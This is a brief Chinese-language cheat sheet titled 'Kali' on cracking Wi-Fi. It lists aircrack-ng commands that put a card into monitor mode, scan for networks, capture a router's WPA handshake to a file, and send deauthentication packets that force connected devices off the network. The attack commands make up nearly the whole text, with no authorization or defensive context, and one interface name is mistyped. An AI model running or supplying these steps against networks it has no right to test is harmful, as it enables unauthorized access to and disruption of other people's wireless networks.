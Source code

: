 # Kali

## WIFI 破解

### 准备工作

1. 列出监听模式的网卡: `airmon-ng`
2. 启动监听模式: `airmon-ng start wlan0`
3. 查看监听列表: `iwconfig`

### 抓包

成功抓包会出现`WPA handshake`提示

- 扫描 WIFI: `airodump-ng 接口名(如wlan0mon)`
- 抓包`airodump-ng -c 信道(CH值) --bssid 路由Mac -w ~/Desktop wlan0mon`

### 攻击

强制设备重新连接到网络

- 攻击三次: `aireplay-ng -0 3 -a 路由Mac wlam0mon`

